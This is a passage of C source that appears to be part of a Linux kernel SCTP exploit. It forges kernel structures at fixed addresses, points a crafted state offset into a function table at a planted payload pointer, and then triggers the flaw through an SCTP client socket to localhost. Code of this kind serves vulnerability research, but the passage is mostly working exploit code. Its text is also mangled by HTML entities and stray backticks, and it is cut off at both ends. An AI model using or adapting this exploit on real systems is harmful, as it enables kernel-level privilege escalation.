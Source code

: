 ```

        sctp_ptr-&gt;sk = (struct sock *)0x1000;

        sctp_ptr-&gt;sk-&gt;type = 0x2;

        sctp_ptr-&gt;state = 0x7cb094c; // offset, &amp;_table[event_subtype._type][(int)state] = 0x3000

        sctp_ptr-&gt;ep = (char *)0x2000;

    *(sctp_ptr-&gt;ep + 0x8e) = 1;

    unsigned long* ptr4 = (unsigned long*)0x3000;

    ptr4[0] = (unsigned long)&amp;templine;

`}`



void* client_func(void* arg)

`{`

    int socket_fd;

    struct sockaddr_in serverAddr;

    struct sctp_event_subscribe event_;

    int s;



    char *buf = "test";



    if ((socket_fd = socket(AF_INET, SOCK_SEQPACKET, IPPROTO_SCTP))==-1)`{`

        perror("client socket");

        pthread_exit(0);

    `}`

    bzero(&amp;serverAddr, sizeof(serverAddr));

    serverAddr.sin_family = AF_INET;

    serverAddr.sin_addr.s_addr = htonl(INADDR_ANY);

    serverAddr.sin_port = htons(SERVER_PORT);

    inet_pton(AF_INET, "127.0.0.1", &amp;serverAddr.sin_addr);



    printf("send data: %sn",buf);

    if(sctp_sendmsg(socket_fd,buf,sizeof(buf),(struct sockaddr*)&amp;serverAddr,sizeof(serverAddr),0,0,0,0,0)==-1)`{`

```